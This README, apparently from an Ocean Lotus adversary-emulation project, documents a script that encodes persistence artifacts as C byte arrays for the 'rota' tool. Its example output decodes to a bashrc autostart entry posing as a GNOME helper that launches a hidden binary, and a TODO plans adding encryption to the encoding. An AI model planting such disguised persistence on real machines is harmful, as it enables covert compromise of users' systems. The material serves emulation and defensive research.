 ## Utils
These files represent the persistence artifacts left by Ocean Lotus.
The [file2bytearray.py](./file2bytearray.py) script converts an arbitrary file to a C byte array to be used for stack-strings within the rota tool.
Examples of this can be seen within [persistence.c](../src/persistence.c)

### Usage Example
* Specify a file to read in and convert to a byte array to be used within rota.
``` sh
$> python3 file2bytearray.py -f bashrc-autostart
```

Example output:

``` c
char bashrc_autostart [219] = {0x23,0x20,0x41,0x64,0x64,0x20,0x47,0x4e,0x4f,0x4d,0x45,0x27,0x73,0x20,0x68,0x65,0x6c,0x70,0x65,0x72,0x20,0x64,0x65,0x73,0x69,0x67,0x6e,0x65,0x64,0x20,0x74,0x6f,0x20,0x77,0x6f,0x72,0x6b,0x20,0x77,0x69,0x74,0x68,0x20,0x74,0x68,0x65,0x20,0x49,0x2f,0x4f,0x20,0x61,0x62,0x73,0x74,0x72,0x61,0x63,0x74,0x69,0x6f,0x6e,0x20,0x6f,0x66,0x20,0x47,0x49,0x4f,0xa,0x23,0x20,0x74,0x68,0x69,0x73,0x20,0x65,0x6e,0x76,0x69,0x72,0x6f,0x6e,0x6d,0x65,0x6e,0x74,0x20,0x76,0x61,0x72,0x69,0x61,0x62,0x6c,0x65,0x20,0x69,0x73,0x20,0x73,0x65,0x74,0x2c,0x20,0x67,0x76,0x66,0x73,0x64,0x20,0x77,0x69,0x6c,0x6c,0x20,0x6e,0x6f,0x74,0x20,0x73,0x74,0x61,0x72,0x74,0x20,0x74,0x68,0x65,0x20,0x66,0x75,0x73,0x65,0x20,0x66,0x69,0x6c,0x65,0x73,0x79,0x73,0x74,0x65,0x6d,0xa,0x69,0x66,0x20,0x5b,0x20,0x2d,0x64,0x20,0x24,0x7b,0x48,0x4f,0x4d,0x45,0x7d,0x20,0x5d,0x3b,0x20,0x74,0x68,0x65,0x6e,0xa,0x20,0x20,0x20,0x20,0x20,0x20,0x20,0x20,0x24,0x7b,0x48,0x4f,0x4d,0x45,0x7d,0x2f,0x2e,0x67,0x76,0x66,0x73,0x64,0x2f,0x2e,0x70,0x72,0x6f,0x66,0x69,0x6c,0x65,0x2f,0x67,0x76,0x66,0x73,0x64,0x2d,0x68,0x65,0x6c,0x70,0x65,0x72,0xa,0x66,0x69,0xa};
```

### TODO
  * [ ] Enhance `file2bytearray.py` to also perform encryption + rotate.
